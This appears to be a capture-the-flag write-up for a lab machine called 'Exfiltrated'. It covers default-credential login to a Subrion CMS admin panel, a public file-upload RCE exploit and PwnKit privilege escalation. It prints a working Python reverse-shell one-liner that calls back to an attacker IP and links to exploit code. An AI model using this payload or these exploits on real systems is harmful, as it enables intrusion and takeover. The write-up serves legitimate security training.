




# PG: Exfiltrated

## Reconnaissance

Connecting to the http server via the IP redirects to `exfiltrated.offsec` so I
added it to my `/etc/hosts` file.

The Wappalyzer Firefox extension identified that the server was running Subrion, 
an open source CMS.

Testing common credentials I was able to login to the admin interface located at 
`/panel/` with credentials `admin:admin`.



## Initial access

I Found that the installed version of Subrion was vulnerable to an authenticated 
abritrary file upload vulnerability that leads to RCE. Searching exploit-db I
found this [exploit](https://vulners.com/exploitdb/EDB-ID:49876). After an
inspection of the source code I ran it to obtain a non interactive shell as the
user www-data.



I upgraded to an interactive shell with the following python 3 reverse shell and
catching it with a netcat listener:

```
export RHOST="192.168.49.147";export RPORT=80;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```



## Privilege Escalation

Linpeas found that the system was vulnerable to CVE-2021-4034 aka PwnKit. I used
this [exploit](https://github.com/ly4k/PwnKit) to obtain a root shell.


